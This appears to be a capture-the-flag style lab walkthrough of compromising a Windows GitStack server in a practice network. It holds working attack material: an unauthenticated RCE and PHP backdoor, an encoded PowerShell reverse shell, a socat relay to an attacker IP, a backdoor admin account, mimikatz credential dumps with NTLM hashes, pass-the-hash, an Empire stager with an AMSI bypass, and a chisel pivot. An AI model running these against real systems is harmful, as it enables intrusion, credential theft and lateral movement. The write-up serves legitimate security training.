

# 🔰 10.200.81.150 | Windows


~~**Port Forwarding `80/http`**~~\
~~``~~Tried that using Chisel Local Port Forward but didn't work!


#### Use _<mark style="color:green;">**`sshuttle`**</mark>** ****and connect host to the local network**_

_****_ (1) (1) (1) (1).png>)_****_

## <mark style="color:purple;background-color:green;">\_\_Enumeration\_\_</mark>

<details>

<summary><mark style="color:purple;">NMAP</mark></summary>

```
Nmap scan report for 10.200.81.150
Host is up (0.00012s latency).

PORT     STATE SERVICE       VERSION
80/tcp   open  http          Apache httpd 2.2.22 ((Win32) mod_ssl/2.2.22 OpenSSL/0.9.8u mod_wsgi/3.3 Python/2.7.2 PHP/5.4.3)
|_http-title: Page not found at /
|_http-server-header: Apache/2.2.22 (Win32) mod_ssl/2.2.22 OpenSSL/0.9.8u mod_wsgi/3.3 Python/2.7.2 PHP/5.4.3
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: GIT-SERV
|   NetBIOS_Domain_Name: GIT-SERV
|   NetBIOS_Computer_Name: GIT-SERV
|   DNS_Domain_Name: git-serv
|   DNS_Computer_Name: git-serv
|   Product_Version: 10.0.17763
|_  System_Time: 2022-02-16T22:41:11+00:00
|_ssl-date: 2022-02-16T22:41:14+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=git-serv
| Not valid before: 2022-02-15T10:50:13
|_Not valid after:  2022-08-17T10:50:13
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```


</details>

<details>

<summary>Enumeration - <mark style="color:green;">WEB SERVICES</mark></summary>

**Technologies**



**Dirsearch | Gobuster**

```yaml
/cgi-bin/
/gitstack/
/rest
```

#### Page Screenshots

 (1) (1).png>) (1) (1) (1).png>)

</details>

## <mark style="color:red;background-color:yellow;">\_\_Exploitation\_\_</mark>

### _<mark style="color:orange;">FOOTHOLD</mark>_

### Gitstack RCE (Unauthenticated)

Exploit POC used--> [https://github.com/kacperszurek/exploits/blob/master/GitStack/gitstack\_unauthenticated\_rce.py](https://github.com/kacperszurek/exploits/blob/master/GitStack/gitstack\_unauthenticated\_rce.py)\
[https://www.exploit-db.com/exploits/43777](https://www.exploit-db.com/exploits/43777)\
 (1) (1) (1).png>)\
 (1) (1) (1).png>)

* We successfully created a backdoor too at `/web/exploit-dexter9.php.` We get a pseudoshell which we can convert to a fully functional reverse shell using PHP / powershell.

 (1) (1) (1).png>)

### _<mark style="color:red;">GETTING SHELL</mark>_

#### Two-ways

* Given we have a fully stable shell on `.200`, we could upload a static copy of [netcat](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86\_64/ncat) and just catch the shell on the compromised host.
* We could set up a socat relay on .200 to forward a shell back to a listener on our attacker machine. _<mark style="color:yellow;">\[PRACTICE]</mark>_

### Setting up a relay to get a shell


CentOS uses an always-on wrapper around the IPTables firewall called "`firewalld`". By default, this firewall is extremely restrictive, allowing access to only SSH / anything the sysadmin has specified. This is also why _Chisel port forward_ of port 80 wasn't working!

Before capturing (or relaying) shells, we need to open our desired port in the firewall:

`firewall-cmd --zone=public --add-port PORT/tcp`\
`` (1) (1).png>)``


#### <mark style="color:red;background-color:yellow;">METHOD-1</mark> - SHELL ON COMPROMISED HOST

Start a listener on that host using `nc` static binary.\
Use Base64 powershell payload --> _Created at_ [_https://www.revshells.com/_](https://www.revshells.com)__

```powershell
powershell.exe -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMgAwADAALgA4ADEALgAyADAAMAAiACwAMwAzADMAMwA3ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==
# Base64 encoded in Little Endian for WIN
```

 (1) (1) (1).png>)

We receive reverse shell on the compromised server as `nt authority\system`\
`` (1) (1) (1).png>)

Enumerating for interesting information

```
#GitStack\data\data.db
adminadmin@gitstack.com pbkdf2_sha256$10000$LvPhtKHL4m66$QVcepgdvIrks8AEOogZ3JV+trZRT8fMOsCyzA4nN0TQ=
poiuytrezcontact@smartmobilesoftware.com sha1$3b696$d54c0bb1124b1a2550636cc5001879f1bbb25abe

#GitStack\data\passwdfile
twreath:$apr1$piSKZ1Ms$3dzcdMG3eFK9bhC2U7Dup/
```

<mark style="color:red;background-color:yellow;"></mark>

#### <mark style="color:red;background-color:yellow;">METHOD-2</mark>- RELAY SHELL TO ATTACKER USING `SOCAT`&#x20;

```bash
#ON COMPROMISED HOST
./socat-dexter9 tcp-l:33337,fork,reuseaddr tcp:10.50.82.178:12345 &
```

<mark style="color:red;background-color:yellow;"></mark> (1) (1) (1).png>)<mark style="color:red;background-color:yellow;"></mark> (1) (1) (1).png>)<mark style="color:red;background-color:yellow;"></mark>

### Gaining \*some\* Persistence on the new host

We know that ports 3389 and 5985 are open. This means that (using an account with the correct privileges) we should be able to obtain either a GUI through RDP (port 3389) or a stable CLI shell using WinRM (port 5985). Also since we are using `sshuttle`, we don't need anymore relaying!\
\
Specifically, we need a user account (as opposed to the service account which we're currently using), with the "Remote Desktop Users" group for RDP, or the "Remote Management Users" group for WinRM.

**Create a new user**

```powershell
net user dexter9 d3xter123 /add
net localgroup Administrators dexter9 /add
net localgroup "Remote Management Users" dexter9 /add
```

 (1) (1) (1) (1).png>)\
Now we can use `evilwinrm` to login from our attacker host (or `xfreerdp` for GUI).\
.png>)


This account will get deleted if the host is reset! We need to loot someone's hash for stable access.


### _<mark style="color:red;">POST EXPLOITATION</mark>_

* Transfer [Invoke-Mimikatz.ps1](https://raw.githubusercontent.com/dievus/PowerShellForPentesters/main/Tools/Invoke-Mimikatz.ps1) or [mimikatz.exe](https://github.com/gentilkiwi/mimikatz/releases) to the Windows host (via Linux host).\
   (1) (1).png>)\
   (1) (1) (1).png>)
* Get RDP session for GUI --> `xfreerdp /v:10.200.81.150 /u:dexter9 /p:d3xter123 +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share`

 (1).png>)

* With **Mimikatz**, we give ourselves the Debug privilege -`privilege::debug`,and elevate our integrity to SYSTEM level - `token::elevate`. \
  Now dump the SAM database --> `lsa::dump` \
   (1) (1).png>)

### SAM hash dumps

```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

672     {0;000003e7} 1 D 20335          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;00102a38} 2 F 1961918     GIT-SERV\dexter9        S-1-5-21-3335744492-1614955177-2693036043-1004
(15g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 2050784     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)

mimikatz # lsadump::lsa /patch
Domain : GIT-SERV / S-1-5-21-3335744492-1614955177-2693036043

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : 37db630168e5f82aafa8461e05c6bbd1

RID  : 000003ea (1002)
User : asd174
LM   :
NTLM : 0c4f105bc41e98beb9db29b61f16b140

RID  : 000001f7 (503)
User : DefaultAccount
LM   :
NTLM :

RID  : 000003ec (1004)
User : dexter9
LM   :
NTLM : 63d8969120cdac2afb1933e027156a31

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000003eb (1003)
User : me
LM   :
NTLM : becedb42ec3c5c7f965255338be4453c

RID  : 000003e9 (1001)
User : Thomas
LM   :
NTLM : 02d90eda8f6b6b06c32d5f207831101f

RID  : 000001f8 (504)
User : WDAGUtilityAccount
LM   :
NTLM : c70854ba88fb4a9c56111facebdf3c36
```

* Trying to crack the retrieved NTLM hashes -\
  `Administrator:37db630168e5f82aafa8461e05c6bbd1`\
  `Thomas:02d90eda8f6b6b06c32d5f207831101f`-->`i<3ruby`

#### Gaining permanent persistence by using Pass-the-Hash attack

 (1) (1) (1).png>)

### <mark style="color:red;">POWERSHELL EMPIRE - C2</mark>


We can't directly connect to the compromised Windows host. Also Empire agents can't be proxied with a `socat` relay or any equivalent redirects


* Create a normal `http` listener on Attacker host + Setting up a Hop Listener on the compromised Linux host\
   (1) (1).png>)\
   (1) (1).png>)\
   (1).png>)\
   (1) (1).png>)\
   (1) (1).png>) (1).png>)
* Create a stager for `http_hop` and send from BurpSuite for waiting agent to receive!\
  \
   (1) (1).png>) (1).png>) (1) (1).png>)\
  All assigned tasks' output can be seen using `view <id>` .

```powershell
powershell -noP -sta -w 1 -enc  SQBmACgAJABQAFMAVgBFAHIAcwBpAE8AbgBUAGEAYgBsAEUALgBQAFMAVgBFAHIAcwBJAE8AbgAuAE0AYQBqAE8AUgAgAC0AZwBlACAAMwApAHsAJABSAGUARgA9AFsAUgBFAEYAXQAuAEEAUwBzAGUATQBCAGwAWQAuAEcAZQBUAFQAWQBwAGUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBBAG0AcwBpACcAKwAnAFUAdABpAGwAcwAnACkAOwAkAFIARQBGAC4ARwBlAFQARgBpAEUATABEACgAJwBhAG0AcwBpAEkAbgBpAHQARgAnACsAJwBhAGkAbABlAGQAJwAsACcATgBvAG4AUAB1AGIAbABpAGMALABTAHQAYQB0AGkAYwAnACkALgBTAEUAdABWAGEAbAB1AGUAKAAkAE4AVQBsAEwALAAkAFQAUgB1AEUAKQA7AFsAUwB5AHMAdABlAG0ALgBEAGkAYQBnAG4AbwBzAHQAaQBjAHMALgBFAHYAZQBuAHQAaQBuAGcALgBFAHYAZQBuAHQAUAByAG8AdgBpAGQAZQByAF0ALgAiAEcAZQB0AEYAaQBlAGAAbABkACIAKAAnAG0AXwBlACcAKwAnAG4AYQBiAGwAZQBkACcALAAnAE4AbwBuACcAKwAnAFAAdQBiAGwAaQBjACwAJwArACcASQBuAHMAdABhAG4AYwBlACcAKQAuAFMAZQB0AFYAYQBsAHUAZQAoAFsAUgBlAGYAXQAuAEEAcwBzAGUAbQBiAGwAeQAuAEcAZQB0AFQAeQBwAGUAKAAnAFMAeQBzAHQAZQAnACsAJwBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBUAHIAYQBjAGkAbgBnAC4AUABTAEUAJwArACcAdAB3AEwAbwBnAFAAcgBvAHYAaQBkAGUAcgAnACkALgAiAEcAZQB0AEYAaQBlAGAAbABkACIAKAAnAGUAdAAnACsAJwB3AFAAcgBvAHYAaQBkAGUAcgAnACwAJwBOAG8AbgBQAHUAYgAnACsAJwBsAGkAYwAsAFMAJwArACcAdABhAHQAaQBjACcAKQAuAEcAZQB0AFYAYQBsAHUAZQAoACQAbgB1AGwAbAApACwAMAApADsAfQA7AFsAUwBZAFMAVABlAG0ALgBOAGUAdAAuAFMARQBSAHYASQBjAGUAUABvAGkAbgB0AE0AYQBOAGEAZwBFAFIAXQA6ADoARQB4AFAAZQBDAFQAMQAwADAAQwBPAG4AdABJAE4AVQBFAD0AMAA7ACQARgA5ADQARQA9AE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAFkAUwB0AGUAbQAuAE4ARQBUAC4AVwBFAEIAQwBsAEkAZQBuAHQAOwAkAHUAPQAnAE0AbwB6AGkAbABsAGEALwA1AC4AMAAgACgAVwBpAG4AZABvAHcAcwAgAE4AVAAgADYALgAxADsAIABXAE8AVwA2ADQAOwAgAFQAcgBpAGQAZQBuAHQALwA3AC4AMAA7ACAAcgB2ADoAMQAxAC4AMAApACAAbABpAGsAZQAgAEcAZQBjAGsAbwAnADsAJABmADkANABlAC4ASABFAGEARABFAHIAUwAuAEEAZABEACgAJwBVAHMAZQByAC0AQQBnAGUAbgB0ACcALAAkAHUAKQA7ACQAZgA5ADQARQAuAFAAUgBvAHgAWQA9AFsAUwBZAHMAVABFAE0ALgBOAEUAVAAuAFcAZQBiAFIARQBRAHUARQBTAHQAXQA6ADoARABlAGYAQQB1AEwAdABXAEUAYgBQAFIAbwBYAHkAOwAkAEYAOQA0AGUALgBQAFIAbwB4AFkALgBDAHIAZQBkAEUATgBUAEkAYQBsAHMAIAA9ACAAWwBTAHkAcwB0AGUATQAuAE4ARQB0AC4AQwByAGUAZABFAG4AdABpAGEAbABDAEEAQwBoAGUAXQA6ADoARABFAEYAYQBVAEwAVABOAEUAVAB3AG8AUgBLAEMAUgBlAGQARQBOAHQASQBhAGwAUwA7ACQASwA9AFsAUwB5AHMAVABlAG0ALgBUAEUAWABUAC4ARQBOAEMAbwBEAGkATgBHAF0AOgA6AEEAUwBDAEkASQAuAEcAZQBUAEIAWQBUAGUAUwAoACcAcQBuAGkATgBaAEkAZwBfAEIAKQBkAG0AawA8AC0AXQBGAEUAPwB5AFkASwBAAHcANgBUACEAKgB7AHoATABsACcAKQA7ACQAUgA9AHsAJABEACwAJABLAD0AJABBAFIARwBTADsAJABTAD0AMAAuAC4AMgA1ADUAOwAwAC4ALgAyADUANQB8ACUAewAkAEoAPQAoACQASgArACQAUwBbACQAXwBdACsAJABLAFsAJABfACUAJABLAC4AQwBPAHUATgB0AF0AKQAlADIANQA2ADsAJABTAFsAJABfAF0ALAAkAFMAWwAkAEoAXQA9ACQAUwBbACQASgBdACwAJABTAFsAJABfAF0AfQA7ACQARAB8ACUAewAkAEkAPQAoACQASQArADEAKQAlADIANQA2ADsAJABIAD0AKAAkAEgAKwAkAFMAWwAkAEkAXQApACUAMgA1ADYAOwAkAFMAWwAkAEkAXQAsACQAUwBbACQASABdAD0AJABTAFsAJABIAF0ALAAkAFMAWwAkAEkAXQA7ACQAXwAtAEIAWABvAFIAJABTAFsAKAAkAFMAWwAkAEkAXQArACQAUwBbACQASABdACkAJQAyADUANgBdAH0AfQA7ACQAZgA5ADQARQAuAEgAZQBBAGQAZQBSAFMALgBBAGQAZAAoACIAQwBvAG8AawBpAGUAIgAsACIAcwBlAHMAcwBpAG8AbgA9ADIATwB6AHgAdQBhAEIAVwA2AHcAMwBqAGkALwBnADgAdwB6AFIAVwBQAFYAYgBpAGcAagA0AD0AIgApADsAJABzAGUAcgA9ACQAKABbAFQARQB4AHQALgBFAG4AQwBvAGQASQBOAGcAXQA6ADoAVQBuAEkAYwBPAEQAZQAuAEcAZQBUAFMAVAByAEkATgBHACgAWwBDAE8AbgB2AEUAUgBUAF0AOgA6AEYAUgBPAG0AQgBBAHMAZQA2ADQAUwB0AFIASQBOAGcAKAAnAGEAQQBCADAAQQBIAFEAQQBjAEEAQQA2AEEAQwA4AEEATAB3AEEAeABBAEQAQQBBAEwAZwBBAHkAQQBEAEEAQQBNAEEAQQB1AEEARABnAEEATQBRAEEAdQBBAEQASQBBAE0AQQBBAHcAQQBEAG8AQQBOAFEAQQA1AEEARABZAEEATwBRAEEANQBBAEEAPQA9ACcAKQApACkAOwAkAHQAPQAnAC8AbABvAGcAaQBuAC8AcAByAG8AYwBlAHMAcwAuAHAAaABwACcAOwAkAGgAbwBwAD0AJwBoAHQAdABwAF8AaABvAHAAJwA7ACQAZABhAFQAQQA9ACQAZgA5ADQAZQAuAEQATwB3AG4ATABvAGEARABEAGEAdABhACgAJABzAEUAcgArACQAdAApADsAJABpAFYAPQAkAEQAYQB0AEEAWwAwAC4ALgAzAF0AOwAkAEQAQQB0AGEAPQAkAGQAYQBUAEEAWwA0AC4ALgAkAEQAYQB0AGEALgBsAGUAbgBHAFQASABdADsALQBqAE8ASQBuAFsAQwBIAEEAcgBbAF0AXQAoACYAIAAkAFIAIAAkAGQAYQB0AEEAIAAoACQASQBWACsAJABLACkAKQB8AEkARQBYAA==
```

 (1) (1).png>)

* The GUI version is almost the same, but easier\
  .png>)
* Using module --> `usemodule powershell/situational_awareness/network/portscan`\
  ``We successfully can ping and portscan the 2nd Windows machine - the personal PC.\
   (1) (1).png>)\

* Alternatively, do the same thing from <mark style="color:yellow;">`evil-winrm`</mark> shell by importing those PS scripts:\
  `evil-winrm -u Administrator -H HASH -i IP -s /usr/share/powershell-empire/empire/server/data/module_source/situational_awareness/network/` \
  Then `Invoke-Portscan.ps1` to initialise the script and `Get-Help Invoke-Portscan` to use.

#### Create a <mark style="color:green;"></mark> <mark style="color:green;"></mark><mark style="color:green;">`Socks5`</mark> <mark style="color:green;"></mark>_<mark style="color:green;">Forward proxy</mark>_ --> Port `80` of 10.200.81.100 to Attacker host using CHISEL


Open up a port in the Windows firewall to allow the forward connection:\
`netsh advfirewall firewall add rule name="chisel-dexter9" dir=in action=allow protocol=tcp localport=47000`


```bash
#ON WINDOWS (Git-Serv)
.\chisel.exe server -p 47000 --socks5
#On my host
chisel client 10.200.81.150:47000 10080:socks
```

How does `SOCKS5` proxy work - [Check here](https://securityintelligence.com/posts/socks-proxy-primer-what-is-socks5-and-why-should-you-use-it/)\
Using FoxyProxy to use `Socks5` proxy post-connection. This connects through sshuttle to the hidden Personal PC.\
 (1).png>)\
 (1).png>)\
 (1) (1) (1).png>)

* Opening 10.200.81.100 on the web browser opens up the Local Development Server!
